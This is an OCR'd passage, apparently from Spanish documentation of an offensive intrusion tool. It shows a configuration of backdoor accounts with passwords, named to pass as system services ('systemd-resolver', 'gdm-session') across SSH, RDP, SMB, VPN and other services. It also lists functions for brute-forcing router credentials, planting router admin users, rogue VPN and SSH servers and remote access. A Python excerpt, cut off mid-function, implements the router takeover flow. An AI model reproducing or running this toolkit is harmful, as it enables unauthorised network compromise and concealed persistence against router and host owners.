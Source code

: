 ```json
    "ssh_user": "systemd-resolver",
    "ssh_password": "System_Res0lver_2024!",
    "web_user": "admin",
    "web_password": "Web_P@ssw0rd_2024!",
    "vpn_user": "vpn_client",
    "vpn_password": "VPN_P@ssw0rd_2024!",
    "proxy_user": "udisks-helper",
    "proxy_password": "Proxy_P@ssw0rd_2024!",
    "ftp_user": "gdm-session",
    "ftp_password": "FTP_P@ssw0rd_2024!",
    "rdp_user": "svc_rdp",
    "rdp_password": "RDP_P@ssw0rd_2024!",
    "telnet_user": "svc_telnet",
    "telnet_password": "Telnet_P@ssw0rd_2024!",
    "vnc_user": "svc_vnc",
    "vnc_password": "VNC_P@ssw0rd_2024!",
    "smb_user": "svc_smb",
    "smb_password": "SMB_P@ssw0rd_2024!"
  }
}
```

## Funciones de Router y Persistencia de Red

### Acceso al Router
- `_access_router_and_configure_persistence()`: Función principal para acceso al router
- `_detect_router_type()`: Detecta el tipo/marca del router
- `_brute_force_router_credentials()`: Fuerza bruta específica para routers
- `_configure_router_persistence()`: Configura persistencia en el router
- `_create_router_admin_user()`: Crea usuario administrativo persistente
- `_configure_port_forwarding()`: Configura port forwarding
- `_configure_vpn_server()`: Configura servidor VPN en el router
- `_configure_remote_access()`: Habilita acceso remoto
- `_backup_router_config()`: Hace backup de la configuración

### Persistencia de Red
- `_configure_network_persistence()`: Función principal de persistencia de red
- `_setup_persistent_ssh_server()`: Configura servidor SSH persistente
- `_setup_persistent_vpn_server()`: Configura servidor VPN propio
- `_setup_persistent_web_server()`: Configura panel web de administración

```python
def _access_router_and_configure_persistence(self) -> List[Dict[str, Any]]:
    """Acceder al router y configurar persistencia de red"""
    router_access = []
    
    # Obtener gateway detectado
    gateway = self.network_config.get('gateway')
    
    # Detectar tipo de router
    router_type = self._detect_router_type(gateway)
    
    # Intentar credenciales por defecto
    router_credentials = self._brute_force_router_credentials(gateway)
    
    if router_credentials:
        # Configurar acceso persistente al router
        router_config = self._configure_router_persistence(gateway, router_credentials, router_type)
        
        router_access.append({
            'gateway': gateway,
```